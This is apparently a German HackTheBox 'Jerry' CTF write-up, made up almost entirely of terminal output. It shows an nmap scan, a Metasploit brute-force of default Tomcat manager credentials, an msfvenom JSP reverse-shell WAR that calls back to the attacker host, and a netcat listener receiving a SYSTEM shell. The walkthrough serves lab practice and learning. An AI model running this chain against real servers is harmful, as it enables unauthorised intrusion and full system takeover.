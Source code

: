 ```yaml
---
title: "HackTheBox - Jerry"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

Jerry wie ein kleiner Teil von Kotarak!

root@kali:~# nmap 10.10.10.95 -sV -sC  
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-19 14:02 CET  
Nmap scan report for 10.10.10.95  
Host is up (0.028s latency).  
Not shown: 999 filtered ports  
PORT STATE SERVICE VERSION  
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1  
|_http-favicon: Apache Tomcat  
|_http-open-proxy: Proxy might be redirecting requests  
|_http-server-header: Apache-Coyote/1.1  
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 14.07 seconds

root@kali:~# msfconsole

msf > search tomcat

Matching Modules  
================

Name Disclosure Date Rank Check Description  
---- --------------- ---- ----- -----------  
auxiliary/admin/http/tomcat_administration normal Yes Tomcat Administration Tool Default Access  
auxiliary/admin/http/tomcat_utf8_traversal 2009-01-09 normal Yes Tomcat UTF-8 Directory Traversal Vulnerability  
auxiliary/admin/http/trendmicro_dlp_traversal 2009-01-09 normal Yes TrendMicro Data Loss Prevention 5.5 Directory Traversal  
auxiliary/dos/http/apache_commons_fileupload_dos 2014-02-06 normal No Apache Commons FileUpload and Apache Tomcat DoS  
auxiliary/dos/http/apache_tomcat_transfer_encoding 2010-07-09 normal No Apache Tomcat Transfer-Encoding Information Disclosure and DoS  
auxiliary/dos/http/hashcollision_dos 2011-12-28 normal No Hashtable Collisions  
auxiliary/scanner/http/tomcat_enum normal Yes Apache Tomcat User Enumeration  
auxiliary/scanner/http/tomcat_mgr_login normal Yes Tomcat Application Manager Login Utility  
exploit/linux/http/cisco_prime_inf_rce 2018-10-04 excellent Yes Cisco Prime Infrastructure Unauthenticated Remote Code Execution  
exploit/multi/http/struts2_namespace_ognl 2018-08-22 excellent Yes Apache Struts 2 Namespace Redirect OGNL Injection  
exploit/multi/http/struts_code_exec_classloader 2014-03-06 manual No Apache Struts ClassLoader Manipulation Remote Code Execution  
exploit/multi/http/struts_dev_mode 2012-01-06 excellent Yes Apache Struts 2 Developer Mode OGNL Execution  
exploit/multi/http/tomcat_jsp_upload_bypass 2017-10-03 excellent Yes Tomcat RCE via JSP Upload Bypass  
exploit/multi/http/tomcat_mgr_deploy 2009-11-09 excellent Yes Apache Tomcat Manager Application Deployer Authenticated Code Execution  
exploit/multi/http/tomcat_mgr_upload 2009-11-09 excellent Yes Apache Tomcat Manager Authenticated Upload Code Execution  
exploit/multi/http/zenworks_configuration_management_upload 2015-04-07 excellent Yes Novell ZENworks Configuration Management Arbitrary File Upload  
post/multi/gather/tomcat_gather normal No Gather Tomcat Credentials  
post/windows/gather/enum_tomcat normal No Windows Gather Apache Tomcat Enumeration

msf > use auxiliary/scanner/http/tomcat_mgr_login  
msf auxiliary(scanner/http/tomcat_mgr_login) > options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

Name Current Setting Required Description  
---- --------------- -------- -----------  
BLANK_PASSWORDS false no Try blank passwords for all users  
BRUTEFORCE_SPEED 5 yes How fast to bruteforce, from 0 to 5  
DB_ALL_CREDS false no Try each user/password couple stored in the current database  
DB_ALL_PASS false no Add all passwords in the current database to the list  
DB_ALL_USERS false no Add all users in the current database to the list  
PASSWORD no The HTTP password to specify for authentication  
PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt no File containing passwords, one per line  
Proxies no A proxy chain of format type:host:port[,type:host:port][...]  
RHOSTS yes The target address range or CIDR identifier  
RPORT 8080 yes The target port (TCP)  
SSL false no Negotiate SSL/TLS for outgoing connections  
STOP_ON_SUCCESS false yes Stop guessing when a credential works for a host  
TARGETURI /manager/html yes URI for Manager login. Default is /manager/html  
THREADS 1 yes The number of concurrent threads  
USERNAME no The HTTP username to specify for authentication  
USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt no File containing users and passwords separated by space, one pair per line  
USER_AS_PASS false no Try the username as the password for all users  
USER_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt no File containing users, one per line  
VERBOSE true yes Whether to print output for all attempts  
VHOST no HTTP server virtual host

msf auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.10.10.95  
rhosts => 10.10.10.95  
msf auxiliary(scanner/http/tomcat_mgr_login) > exploit

-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)  
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)  
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)  
[*] Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed

root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.5 LPORT=4444 -f war > m10x.war  
Payload size: 1089 bytes  
Final size of war file: 1089 bytes

root@kali:~# nc -lnvp 4444  
listening on [any] 4444 ...  
connect to [10.10.15.5] from (UNKNOWN) [10.10.10.95] 49713  
Microsoft Windows [Version 6.3.9600]  
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami  
whoami  
nt authority\system

C:\apache-tomcat-7.0.88>cd C:/Users/Administrator/Desktop  
cd C:/Users/Administrator/Desktop

C:\Users\Administrator\Desktop>dir  
dir  
Volume in drive C has no label.  
Volume Serial Number is FC2B-E489

Directory of C:\Users\Administrator\Desktop

06/19/2018 06:09 AM <DIR> .  
06/19/2018 06:09 AM <DIR> ..  
06/19/2018 06:09 AM <DIR> flags  
0 File(s) 0 bytes  
3 Dir(s) 27,595,964,416 bytes free

C:\Users\Administrator\Desktop>cd flags  
cd flags

C:\Users\Administrator\Desktop\flags>dir  
dir  
Volume in drive C has no label.  
Volume Serial Number is FC2B-E489

Directory of C:\Users\Administrator\Desktop\flags

06/19/2018 06:09 AM <DIR> .  
06/19/2018 06:09 AM <DIR> ..  
06/19/2018 06:11 AM 88 2 for the price of 1.txt  
1 File(s) 88 bytes  
2 Dir(s) 27,595,964,416 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"  
type "2 for the price of 1.txt"  
user.txt  
700##########################d00

root.txt  
04a##########################90e